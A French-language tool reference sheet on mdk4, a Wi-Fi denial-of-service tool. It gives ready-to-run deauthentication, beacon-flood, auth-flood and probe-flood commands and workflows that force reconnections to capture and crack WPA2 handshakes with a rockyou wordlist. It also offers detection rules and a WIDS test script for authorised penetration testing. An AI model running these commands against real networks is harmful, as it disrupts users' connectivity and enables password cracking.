

# mdk4 — DoS et fuzzing Wi-Fi (deauth, beacon flood, auth flood)

> [!info] **En 1 phrase**
> Outil de **DoS WiFi** par injection massive : déauthentification de masse, **beacon flood** et **auth DoS** contre les points d'accès et leurs clients — le standard pour tester la résilience (et la détection) d'un WIDS.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom complet | mdk4 (successeur de mdk3) |
| Description | Générateur de charge 802.11 : injection de trames deauth, beacon flood, auth flood, probe flood, PATP/EPA pour tester la résilience et le fuzzing des AP |
| Catégorie | Wireless & Réseau |
| Sous-catégorie | Attaque & DoS WiFi (déni de service, fuzzing, test WIDS) |
| Fonction principale | Saturer les AP et clients par des flots de trames de contrôle/management ; forcer des reconnexions pour la capture de handshakes |
| Type d'outil | CLI (générateur de trames 802.11) |
| Licence | GPL-3.0 |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | C |
| Développeur / organisation | Projet mdk4 (communauté aircrack-ng) |
| Projet officiel | aircrack-ng organisation |
| Dépôt officiel | https://github.com/aircrack-ng/mdk4 |
| Documentation officielle | https://www.aircrack-ng.org/doku.php?id=mdk4 |
| Date de création | 2012 (mdk4, héritier de mdk3 datant de ~2007) |
| État du projet | maintenu (dépôt git actif, pas de releases numérotées) |
| Dernière version connue | git `master` (paquets Debian/Kali récents) |
| Systèmes compatibles | Linux (mode moniteur requis), macOS (limité) |

> [!note] Pour vérifier / compléter
> mdk4 ne publie pas de tags de release GitHub : la « version » est le HEAD du dépôt ou le paquet de la distribution (`mdk4 --help` affiche la date de build). Les options peuvent différer légèrement selon les forks.

---

## Concept

`mdk4` (successeur de mdk3) injecte des flux de trames pour **saturer** un AP ou ses clients. Les modes principaux : **`b`** (beacon flood : spam de faux AP qui noie les scanners), **`a`** (auth DoS : rafale de requêtes d'authentification qui gèle les clients), **`d`** (deauth ciblé ou globale) et **`p`** (probe flood : inondation de requêtes de sondage). C'est un outil **très bruyant et destructeur** : il sert à valider la **disponibilité** d'un réseau, tester les contre-mesures (WIDS) et, en préparation d'attaque, à forcer les clients à se reconnecter (pour capturer des handshakes). À n'utiliser que sur des cibles **autorisées**.

Il requiert une **carte Wi-Fi compatible avec l'injection** et un **mode moniteur**. Dans un test d'intrusion Wi-Fi, on l'utilise principalement en amont de aircrack-ng (forcer la reconnexion pour capturer un handshake) ou comme générateur de charge pour un audit WIDS/WIPS.

Les paramètres `-s` (vitesse d'injection) et `-c` (canal) sont les deux leviers de calibrage : un taux trop élevé sature la carte et rend l'injection instable, un mauvais canal rend l'attaque inopérante. Pour les tests de détection, on recommande de commencer par des rafales courtes et mesurées plutôt que des flots ininterrompus.



---

## Concepts fondamentaux

| Concept | Explication |
|---|---|
| Mode moniteur | La carte reçoit/émet des trames 802.11 sans s'associer ; indispensable à l'injection |
| Injection | Capacité d'envoyer des trames arbitraires ; testée avec `aireplay-ng -9` |
| Deauth (0xC0) | Trame de désauthentification : force le client à se reconnecter (utile pour capter le handshake) |
| Beacon flood | Émission massive de beacons avec de faux BSSID/SSID : noie les scanners et affiche des dizaines de « réseaux » |
| Auth flood | Rafale de requêtes d'authentification (open system) : l'AP sature sa table d'auth et gèle les vrais clients |
| Probe flood | Inondation de probe requests : sature les AP et les clients qui répondent aux sondages |
| PATP / EPA | Modes expérimentaux de fuzzing/power attack (tests destructifs de cartes/AP) |
| WIDS | Wireless IDS : détecte les rafales de deauth/auth/beacon (la cible des tests mdk4 défensifs) |
| Rate limiting | Réglage `-s` : paquets/s — essentiel pour la stabilité d'injection et la discrétion |

---

## Installation

### Debian / Ubuntu / Kali Linux

```bash
sudo apt update && sudo apt install -y mdk4
# Kali : préinstallé
mdk4 --help
```

### Arch Linux

```bash
sudo pacman -S mdk4
```

### Fedora / RHEL

```bash
sudo dnf install mdk4
```

### macOS

```bash
# Non distribué officiellement ; build depuis les sources (mode moniteur limité sur macOS)
```

### Windows

```powershell
# Non supporté nativement : mode moniteur + injection indisponibles sous Windows
# Utiliser une VM Linux avec une carte USB compatible
```

### Docker

```bash
# Déconseillé : Docker isole l'accès à la carte radio (mode moniteur inaccessible de façon fiable)
```

### Compilation depuis les sources

```bash
git clone https://github.com/aircrack-ng/mdk4.git && cd mdk4
make && sudo make install
```

> [!warning] Prérequis & problèmes potentiels
> - Carte Wi-Fi **mode moniteur + injection** obligatoire (chipset Realtek/Atheros/Ralink recommandés).
> - Vérifier l'injection : `sudo airmon-ng start wlan0` puis `sudo aireplay-ng -9 wlan0mon`.
> - `airmon-ng check kill` pour libérer la carte des services (NetworkManager/wpa_supplicant).
> - Les modes `e`/`w` (PATP, EPA) sont **expérimentaux et destructeurs** : ne jamais les utiliser hors laboratoire dédié.

---

## Configuration

mdk4 se configure **uniquement en ligne de commande** (pas de fichier de config). Les listes de cibles (BSSID, MAC clients, SSID) se fournissent dans des **fichiers texte**, un élément par ligne.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `<iface>` | Interface en mode moniteur | `wlan0mon` | Où injecter | `mdk4 wlan0mon d …` |
| `<mode>` | Mode d'attaque | `b`, `a`, `d`, `p`, `e`, `w` | Type de DoS | `d` |
| `-B <bssid>` | BSSID cible unique | MAC | Cible la deauth | `-B AA:BB:CC:DD:EE:FF` |
| `-b <fichier>` | Liste de BSSID cibles | fichier | Deauth multi-cibles | `-b ap.txt` |
| `-t <fichier>` | Liste de MAC clients | fichier | Cible les clients précis | `-t clients.txt` |
| `-c <canal>` | Canal de travail | 1-165 | Doit correspondre à la cible | `-c 6` |
| `-s <vitesse>` | Taux d'injection | pps | Stabilité / discrétion | `-s 100` |
| `-f <fichier>` | Liste de SSID (beacon) | fichier | Faux AP nommés | `-f ssids.txt` |
| `-m` | BSSID/SSID aléatoires | on/off | Beacon flood massif | `-m` |
| `-v` | Verbose | on/off | Debug trames | `-v` |

---

## Architecture interne

mdk4 est un **binaire C** qui pilote la carte en mode moniteur via raw sockets (libpcap/radiotap) :

1. **Initialisation** — ouvre l'interface, récupère le canal et les paramètres radio (via ioctl/nl80211 selon les builds), lit les fichiers de listes (`-b`, `-t`, `-f`).
2. **Génération de trames** — construit des trames 802.11 de type management/control : deauth (0xC0), auth (0xB0), beacon (0x80), probe request (0x40). Les adresses (source, dest, BSSID) sont choisies selon la cible ou rendues aléatoires (`-m`).
3. **Injection** — envoie les trames en boucle à la vitesse `-s` (paquets/s), chaque itération construisant éventuellement de nouveaux faux BSSID/SSID (beacon flood).
4. **Boucle temps réel** — continue jusqu'à Ctrl-C ; `-v` affiche les trames émises et les erreurs éventuelles (par ex. carte qui refuse l'injection).
5. **Modes spéciaux** — `e` (PATP) et `w` (EPA) implémentent des séquences de fuzzing destructives pour tester le comportement des cartes/AP sous stress extrême.

L'outil ne génère **pas de fichier de log** : la sortie est uniquement la console et l'effet radio observé (par un autre récepteur).

---

## Commandes

### Commandes principales

```bash
sudo mdk4 wlan0mon d -B AA:BB:CC:DD:EE:FF
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `mdk4 wlan0mon d -B <bssid>` | Deauth ciblé d'un AP | Les clients de cet AP se déconnectent |
| `mdk4 wlan0mon d -b list.txt -c 6` | Deauth globale multi-AP | Tous les clients du canal tombent |
| `mdk4 wlan0mon d -B <bssid> -t clients.txt` | Deauth de clients précis | Seuls ces MAC sont déconnectés |
| `mdk4 wlan0mon b -f ssids.txt -m` | Beacon flood | Des centaines de faux AP visibles |
| `mdk4 wlan0mon a -i <bssid>` | Auth DoS sur un AP | Les vrais clients sont gelés |
| `mdk4 wlan0mon p -c 6 -s 100` | Probe flood | Saturation des sondages |
| `mdk4 wlan0mon --help` | Aide | Liste des modes et options |

### Commandes avancées

```bash
# Deauth ciblée + capture de handshake en parallèle (workflow type)
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w cap wlan0mon
# (autre terminal)
sudo mdk4 wlan0mon d -B AA:BB:CC:DD:EE:FF -s 100

# Beacon flood discret : liste de SSID réalistes, durée limitée
for i in $(seq 1 100); do echo "AP_ENTREPRISE_$i"; done > /tmp/ssids.txt
sudo mdk4 wlan0mon b -f /tmp/ssids.txt -c 11 -m
```

---

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `<mode> b/a/d/p` | Mode d'attaque | `d` | Basic |
| `-B <bssid>` | Cible BSSID unique | `-B AA:BB:CC:DD:EE:FF` | Basic |
| `-c <canal>` | Canal | `-c 6` | Basic |
| `-s <pps>` | Vitesse d'injection | `-s 100` | Intermediate |
| `-b <fichier>` | Liste BSSID | `-b ap.txt` | Intermediate |
| `-t <fichier>` | Liste clients | `-t clients.txt` | Intermediate |
| `-f <fichier>` | Liste SSID (beacon) | `-f ssids.txt` | Intermediate |
| `-m` | MAC/SSID aléatoires | `-m` | Intermediate |
| `-v` | Verbose | `-v` | Advanced |
| `-w` / `-e` | Modes expérimentaux EPA/PATP | `e` | Expert |
| `-a` (dans `b`) | SSID aléatoire via l'AP réel | voir aide | Expert |

> [!tip] Options les plus utiles au quotidien
> - `-s` : calibre la discrétion et la stabilité (commencer bas, ~50-100 pps).
> - `-c` : toujours aligner sur le canal de la cible (sinon attaque inopérante).
> - `-B` pour un deauth chirurgical, `-b` pour une liste, `-t` pour ne toucher que des clients précis.
> - `-m` avec `b` pour tester les scanners/WIDS par volume de faux AP.

---

## Exemples pratiques

### Beginner

```bash
# Objectif : déconnecter les clients d'un AP précis
sudo mdk4 wlan0mon d -B AA:BB:CC:DD:EE:FF -c 6
# Ctrl-C pour stopper ; les clients se reconnectent immédiatement après
```

Résultat attendu : perte de connexion des clients de l'AP pendant la rafale. Erreur fréquente : oublier `-c` (canal) ou lancer sur une interface non monitorée.

### Intermediate

```bash
# Objectif : deauth de clients précis sur un canal
echo "11:22:33:44:55:66" > cible_client.txt
sudo mdk4 wlan0mon d -B AA:BB:CC:DD:EE:FF -t cible_client.txt -c 6
```

### Advanced

```bash
# Objectif : test WIDS — beacon flood limité à 60 secondes
for i in $(seq 1 50); do echo "R&D_GUEST_$i"; done > /tmp/ssids.txt
timeout 60 sudo mdk4 wlan0mon b -f /tmp/ssids.txt -m
# Observer les alertes WIDS pendant et après la rafale
```

### Expert

```bash
# Objectif : combiner deauth + probe flood sur le même canal pour forcer des reconnexions rapides
sudo mdk4 wlan0mon d -B AA:BB:CC:DD:EE:FF -s 200 -c 6 &
sudo mdk4 wlan0mon p -c 6 -s 100 &
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w cap wlan0mon
# Arrêter proprement les deux floods, puis cracker le handshake
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt cap-01.cap
```

---

## Workflow complet (scénario pas à pas)

**Scénario : tester la détection WIDS d'un site (test autorisé) face à une deauth massive.**

1. Passer la carte en moniteur et vérifier l'injection :
   ```bash
   sudo airmon-ng start wlan0
   sudo aireplay-ng -9 wlan0mon
   ```
2. Repérer la cible (BSSID, canal) :
   ```bash
   sudo airodump-ng wlan0mon
   ```
3. Lancer une deauth ciblée courte sur un AP (10 secondes) :
   ```bash
   sudo mdk4 wlan0mon d -B AA:BB:CC:DD:EE:FF -c 6
   ```
4. Observer : les clients tombent (perte de connectivité), le WIDS doit déclencher une alerte.
5. Tester la tolérance par beacon flood limité (faux AP pendant 60 s) :
   ```bash
   sudo mdk4 wlan0mon b -f /tmp/fake_ssid.txt -m
   ```
6. Stopper, puis vérifier les **journaux d'alerte** du WIDS (qui a été vu ? qui ne l'a pas été ?).

---

## Scénarios avancés

### Scénario 1 : Capturer un handshake WPA2 en forçant la reconnexion

```bash
# 1. Écouter le canal de la cible
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w cap wlan0mon
# 2. Dans un autre terminal : déconnecter les clients de la cible
sudo mdk4 wlan0mon d -B AA:BB:CC:DD:EE:FF -s 100
# 3. Les clients se reconnectent automatiquement -> handshake capturé par airodump
# 4. Crack avec aircrack-ng ou hashcat (mode 22000)
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt cap-01.cap
```

### Scénario 2 : Test de résilience WIDS avec beacon flood multi-canal

```bash
# Générer une liste de SSID réalistes, puis flooder pendant 60 s max
for i in $(seq 1 100); do echo "AP_ENTREPRISE_$i"; done > /tmp/ssids.txt
sudo mdk4 wlan0mon b -f /tmp/ssids.txt -c 11 -m
# Le WIDS doit signaler l'apparition de centaines de faux AP
```

### Scénario 3 : Auth DoS ciblé pour mesurer la résilience d'un AP

```bash
# Vérifier d'abord que l'AP supporte des associations normales (Wireshark/tshark en écoute)
# Puis inonder l'AP d'authentifications :
sudo mdk4 wlan0mon a -i AA:BB:CC:DD:EE:FF -c 6 -s 200
# Les vrais clients de l'AP doivent subir des interruptions d'association
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Attack / DoS | Déni de service WiFi ciblé ou global (deauth, auth flood, beacon flood) |
| Pre-attack | Forcer les reconnexions clients pour capturer handshakes (aircrack-ng/hcxdumptool) |
| Testing (défensif) | Validation des capacités de détection WIDS/WIPS |
| Red team | Perturbation de la disponibilité réseau pour tester les procédures d'incident |
| Fuzzing | Modes expérimentaux PATP/EPA sur matériel de laboratoire |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Impact | Wi-Fi Disassociation | T1466 | `d` : deauth massive déconnecte les clients | WIDS : spikes de trames deauth | WIDS/WIPS, 802.1X, WPA3 |
| Impact | Network Denial of Service | T1498 | Auth flood / beacon flood saturent les AP | WIDS, monitoring des associations | Rate limiting, segmentation |
| Discovery | Wi-Fi Discovery | T1016 (adjacent) | Forçage de reconnexions pour exposer le trafic | Monitoring actif | WPA3, WIDS |
| Collection | Network Sniffing (via reconnexions forcées) | T1040 | Création de fenêtres de capture de handshake | WIDS | Chiffrement, WPA3/SAE |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> L'essence de mdk4 est le **déni de service** : T1466 (déassociation WiFi) est l'association centrale, complétée par T1498 pour les floods.

---

## Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Rafales massives de trames deauth/auth (pics) | Mode `d` / `a` actif (T1466) |
| Centaines de beacons avec SSID/BSSID inconnus | Mode `b` (beacon flood) |
| Nombre anormal de probe requests du même émetteur | Mode `p` (probe flood) |
| Clients déconnectés en boucle, reconnexions simultanées | Signature classique de deauth |
| Injection à taux élevé depuis une source radio | Track WIDS par émetteur |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Exemple Sigma : rafale de trames deauth (spike court)
title: 802.11 Deauth Storm (mdk4)
id: a1b2c3d4-0004-4c00-b000-000000000004
status: experimental
description: Pic de trames de désauthentification sur une courte fenêtre
logsource:
  category: wireless
  product: wids
detection:
  selection:
    frame.subtype: 12
  timeframe: 10s
  condition: selection | count() by bssid > 200
level: high
```

```bash
# Exemple Suricata/Snort : alerte sur inondation de probe requests
alert wlan any any -> any any (msg:"Probe request flood - possible mdk4"; \
  wlan.fc.type_subtype:4; threshold:type both, track by_src, count 500, seconds 5; \
  sid:1000004; rev:1;)
```

---

## Automatisation

```bash
# Exemple : script de test WIDS (rafale courte puis rapport)
#!/bin/bash
# /usr/local/bin/wids-test.sh <bssid> <canal>
BSSID=$1; CH=$2
echo "[*] Deauth 10s sur $BSSID (canal $CH)"
timeout 10 sudo mdk4 wlan0mon d -B "$BSSID" -c "$CH" -s 100
echo "[*] Beacon flood 30s"
timeout 30 sudo mdk4 wlan0mon b -f /tmp/ssids.txt -m
echo "[*] Vérifier les alertes WIDS maintenant"
```

```python
#!/usr/bin/env python3
# Objectif : orchestrer une rafale de deauth et vérifier l'alerte WIDS via API
import subprocess, time, requests

def deauth_blast(bssid, channel, seconds=10):
    subprocess.Popen(
        ["timeout", str(seconds), "sudo", "mdk4", "wlan0mon", "d", "-B", bssid, "-c", str(channel), "-s", "100"]
    )

if __name__ == "__main__":
    deauth_blast("AA:BB:CC:DD:EE:FF", 6, 10)
    time.sleep(12)
    # Interroger le SIEM/WIDS pour vérifier l'alerte
    try:
        r = requests.get("http://wids.local/api/alerts", timeout=5)
        print(r.json())
    except Exception as exc:
        print(f"[!] WIDS injoignable : {exc}")
```

---

## Output et parsing

mdk4 n'écrit **pas de fichier de sortie** : sa « sortie » est l'effet radio (visible depuis un autre récepteur) et la console. Pour valider/analyser une attaque, on enregistre le trafic avec un récepteur dédié et on l'analyse hors-ligne.

```bash
# Capturer l'effet de l'attaque avec airodump (récepteur séparé)
sudo airodump-ng -c 6 -w evidence wlan1mon

# Compter les trames deauth dans la capture (preuve)
tshark -r evidence-01.cap -Y "wlan.fc.type == 0 && wlan.fc.subtype == 12" | wc -l

# Lister les faux AP émis pendant un beacon flood
tshark -r evidence-01.cap -Y "wlan.fc.type_subtype == 8" -T fields -e wlan.bssid | sort -u | wc -l
```

```python
# Exemple de parsing : détecter une rafale deauth dans un pcap
from scapy.all import rdpcap, Dot11, Dot11Deauth

pkts = rdpcap("evidence-01.cap")
deauth = [p for p in pkts if Dot11 in p and p.getlayer(Dot11Deauth)]
print(f"trames deauth : {len(deauth)} ; fenêtre: {pkts[-1].time - pkts[0].time:.1f}s")
```

---

## Intégrations

```text
mdk4 (deauth) → reconnexion clients → airodump-ng / hcxdumptool → capture handshake/PMKID
mdk4 (floods) → WIDS/SIEM → validation des détections défensives
mdk4 (ciblé) → Kismet / Wireshark → preuve radio de l'attaque
```

- [[Tools| Outils]]
- [[Outil - aircrack-ng]] — capture + crack du handshake forcé par la deauth
- [[Outil - hcxdumptool]] — capture PMKID pendant les reconnexions
- [[Outil - Kismet]] — surveillance passive complémentaire (côté défense)
- [[Outil - Wireshark]] / [[Outil - tshark]] — analyse des captures d'effet

---

## Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| aireplay-ng `-0` | Intégré à aircrack-ng, simple | Moins massif, moins de modes | Deauth simple avant capture |
| bettercap `wifi.deauth` | Framework complet, UI web | Dépend du framework | MITM + WiFi combiné |
| Aircrack-ng besside-ng | Automatise capture de handshake | Pas de DoS volontaire | Capture automatisée |
| wifit3 / WPS pixie | Spécifique crack | Pas de DoS | Crack, pas DoS |

> **Quand utiliser mdk4 plutôt qu'aireplay-ng `-0` ?** Quand il faut du **volume** (beacon flood, auth flood, multi-cibles) ou un **test de résilience WIDS** : aireplay-ng suffit pour la simple deauth de capture.

---

## Performance

- L'injection est limitée par la **carte et le driver** : au-delà d'un certain `-s`, la carte ne suit plus et les trames sont perdues (instabilité). Commencer à ~100 pps.
- Les modes `b` (beacon flood) et `a` (auth flood) sont les plus **coûteux** en trames émises : une rafale d'une minute suffit à créer des milliers de faux AP.
- Effet sur la cible : l'AP sature rapidement (table d'association pleine, CPU de traitement des trames).
- Pas de chiffres officiels : les taux d'injection réalisables dépendent du chipset (Realtek USB très performants, Intel souvent bloqués).
- Sur le plan processeur, mdk4 est léger (boucle C simple) : c'est le matériel radio qui borne tout.

---

## Troubleshooting

### Common problems

#### Problème : rien ne se passe / clients toujours connectés

- **Cause** : mauvais canal (`-c`) ou interface pas en mode moniteur.
- **Solution** : vérifier `iw dev` (type monitor), aligner le canal sur la cible.
- **Vérification** : `aireplay-ng -9 wlan0mon` confirme l'injection.

#### Problème : erreur d'injection / trames perdues

- **Cause** : taux `-s` trop élevé pour la carte, ou driver limité.
- **Solution** : baisser `-s` (50-100), changer de chipset si persistant.
- **Vérification** : `-v` n'affiche plus d'erreurs d'envoi.

#### Problème : la carte est bloquée après un flood

- **Cause** : le driver n'a pas supporté la rafale.
- **Solution** : `sudo airmon-ng stop wlan0mon`, `sudo modprobe -r <driver> && sudo modprobe <driver>`, relancer.
- **Vérification** : l'interface réapparaît proprement dans `ip link`.

#### Problème : l'AP ne tombe pas malgré l'auth flood

- **Cause** : l'AP limite les auth par source ou ignore les sources inconnues.
- **Solution** : alterner `-a` (auth DoS) et `-d` (deauth), tester sur un lab.
- **Vérification** : observer avec un récepteur dédié le comportement des clients.

---

## Sécurité de l'outil

- mdk4 est un outil **destructeur** : beacon/auth flood peuvent **casser** un AP, un switch de voisinage ou gêner des services critiques (usages légaux uniquement, accord écrit).
- Root requis pour l'accès raw à la carte.
- Les modes `e`/`w` (PATP/EPA) sont **destructifs** pour le matériel testé : réservés au laboratoire.
- Très **bruyant** et aisément détectable par WIDS : l'usage n'est jamais discret.
- Aucune collecte de données personnelles : l'impact est la disponibilité, pas la confidentialité.
- Conservation des preuves : capturer l'effet (pcap) pour documenter un test autorisé.

---

## Limitations

- Nécessite du matériel **mode moniteur + injection** (pas d'Intel/Broadcom).
- Pas de fichiers de log natifs (traçabilité par capture externe uniquement).
- Modes expérimentaux (`e`, `w`) instables et **destructeurs**.
- Ne déchiffre ni ne cracke : c'est un outil de perturbation, pas de récupération directe.
- macOS : fonctionnalité limitée ; Windows : non supporté.
- Peut être inopérant contre des WIPS actifs (blocage des sources en rafale).

---

## Cheatsheet

```bash
# Deauth ciblée d'un AP
sudo mdk4 wlan0mon d -B AA:BB:CC:DD:EE:FF -c 6

# Deauth globale sur un canal
sudo mdk4 wlan0mon d -b blacklist.txt -c 6

# Deauth de clients précis
sudo mdk4 wlan0mon d -B AA:BB:CC:DD:EE:FF -t clients.txt -c 6

# Beacon flood (faux AP)
sudo mdk4 wlan0mon b -f ssids.txt -m

# Auth DoS
sudo mdk4 wlan0mon a -i AA:BB:CC:DD:EE:FF -c 6

# Probe flood
sudo mdk4 wlan0mon p -c 6 -s 100

# Capture de handshake parallèle (workflow type)
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w cap wlan0mon &
sudo mdk4 wlan0mon d -B AA:BB:CC:DD:EE:FF -s 100
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt cap-01.cap
```

---

## Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Générer des DoS WiFi (deauth, beacon flood, auth flood, probe flood) et tester les WIDS |
| **Quand l'utiliser ?** | Tests de résilience autorisés, forçage de reconnexions pour la capture de handshake |
| **Commande principale** | `sudo mdk4 wlan0mon d -B AA:BB:CC:DD:EE:FF -c 6` |
| **Alternative principale** | aireplay-ng `-0` (deauth simple) |
| **Concepts importants** | Mode moniteur, injection, deauth, beacon flood, auth flood, WIDS |
| **Liens associés** | [[Techniques/Attaques WiFi - Préparation & Basiques\| Préparation]] · [[Outil - aircrack-ng]] · [[Outil - Kismet]] |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| Rafales massives de trames deauth/auth (pics de désauthentications) | WIDS/WIPS réglé : alerter en moins de 10 s sur les pics de trames de contrôle |
| Centaines de beacons avec SSID inconnus | Détection de beacon flood par WIDS, liste blanche des SSID légitimes |
| Clients déconnectés sans raison, reconnexions en boucle | Politiques de reconnexion, canal hopping rigoureux, failover mesh |
| Trames d'injection à taux anormal depuis une source | Rate limiting des trames de contrôle acceptées par source |
| Pics de beacons anormaux sur plusieurs canaux | Corrélation WIDS + journaux de l'AP (événements d'association) |
| Perte de service sur un AP saturé | Segmenter / cloisonner : un AP saturé ne doit pas emporter tout le site |

---

## Tips & Pièges

> [!tip] mdk4 est un outil de **validation** (DoS, WIDS) et d'aide à la capture : une deauth courte (`d -B <bssid>`) suffit à forcer une reconnexion pour attraper un handshake (aircrack) ou un PMKID (hcxdumptool). Bien calibrer `-s` pour la discrétion.

> [!warning] **Danger réel** : beacon flood et auth DoS peuvent **casser l'AP cible** ou son switch de voisinage, et les clients verront le réseau tomber. Jamais sans accord écrit. Un `b -m` sans liste génère des **millions de faux AP** qui noient aussi vos propres outils (Kismet, airodump) — en limiter la durée.

> [!tip] **Bonus handshake** : combine `d` (deauth) et `p` (probe flood) sur le même canal pour accélérer la reconnexion des clients ; garde une fenêtre airodump active sur le canal pour ne rater aucun handshake.

---

## References

### Official

- GitHub officiel : https://github.com/aircrack-ng/mdk4
- Documentation aircrack-ng : https://www.aircrack-ng.org/doku.php?id=mdk4
- Wiki mdk3 (historique, ancêtre) : https://github.com/aircrack-ng/mdk3

### Security references

- MITRE ATT&CK T1466 — Wi-Fi Disassociation : https://attack.mitre.org/techniques/T1466/
- MITRE ATT&CK T1498 — Network Denial of Service : https://attack.mitre.org/techniques/T1498/
- MITRE ATT&CK T1040 — Network Sniffing : https://attack.mitre.org/techniques/T1040/

### Community

- Forums aircrack-ng : https://forum.aircrack-ng.org
- HackTricks — deauth / DoS WiFi : https://book.hacktricks.xyz/wifi-cracking
- Write-ups WIDS et contre-mesures : https://www.kismetwireless.net/docs/readme/usage/

---

> [!info] **Sources**
> - [GitHub officiel mdk4](https://github.com/aircrack-ng/mdk4)
> - [Documentation mdk4 (aircrack-ng)](https://www.aircrack-ng.org/doku.php?id=mdk4)
> - [MITRE ATT&CK T1466 — Wi-Fi Disassociation](https://attack.mitre.org/techniques/T1466/)

**Liens :** [[Tools| Outils]] · [[Techniques/Attaques WiFi - Préparation & Basiques| Préparation]] · [[Techniques/Attaques WiFi - WPA2 PSK| WPA2-PSK]] · [[Techniques/Attaques WiFi - Outils & Recon| Outils & Recon]] · [[Outil - aircrack-ng]] · [[Outil - hcxdumptool]]
